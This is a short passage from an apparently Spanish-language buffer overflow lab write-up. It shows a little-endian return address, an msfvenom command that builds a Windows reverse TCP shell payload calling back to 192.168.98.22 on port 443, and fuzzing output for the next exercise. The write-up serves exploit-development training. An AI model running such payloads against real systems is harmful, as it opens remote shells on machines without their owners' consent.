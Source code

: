 ```php
625011AF
```

```php
\xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x04\x3e\x3f\xe1" -f c
```

![20240228233759.png](20240228233759.png)

## Shell

![20240228233818.png](20240228233818.png)
# OverFlow10

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
.
.
.
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing crashed at 600 bytes

```
